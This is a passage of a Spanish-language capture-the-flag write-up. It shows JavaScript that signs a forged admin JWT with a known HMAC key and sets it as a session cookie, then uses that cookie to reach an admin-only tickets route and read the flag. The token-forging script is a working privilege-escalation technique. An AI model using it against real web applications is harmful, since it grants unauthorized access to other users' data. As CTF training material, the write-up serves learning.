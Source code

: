 ``` script
        .replace(/=+$/, "");

    const dataToSign = `${headerBase64}.${payloadBase64}`;
    const signatureArrayBuffer = await crypto.subtle.sign(
        { name: "HMAC" },
        secretKey,
        new TextEncoder().encode(dataToSign),
    );

    const signatureBase64 = btoa(
        String.fromCharCode.apply(
            null,
            new Uint8Array(signatureArrayBuffer),
        ),
    )
        .replace(/\+/g, "-")
        .replace(/\//g, "_")
        .replace(/=+$/, "");

    const token = `${dataToSign}.${signatureBase64}`;

    document.cookie = `session_token=${token}; path=/; max-age=${60 * 60 * 24}; Secure`;

    console.log("Generated admin JWT token:", token);
}

generateAdminJWT();
```


ahora nos crea la cookie y ya etsa con admin:
![Cookie de admin](/images/events/Images/Pasted%20image%2020241024122859.png)

Bien ahora viendo el codigo que nos proporcionaron del controlador de rutas, hay una linea interesante hay una ruta llamda tickets, que solo se accede si tu cookie es admin, y como la cambiamos realizamos la request:
![Request de tickets](/images/events/Images/Pasted%20image%2020241024123032.png)

Y nos da la request completa de todos los tickets:

![Respuesta completa](/images/events/Images/Pasted%20image%2020241024123053.png)
y en el de admin en la descripcion esta la flag.
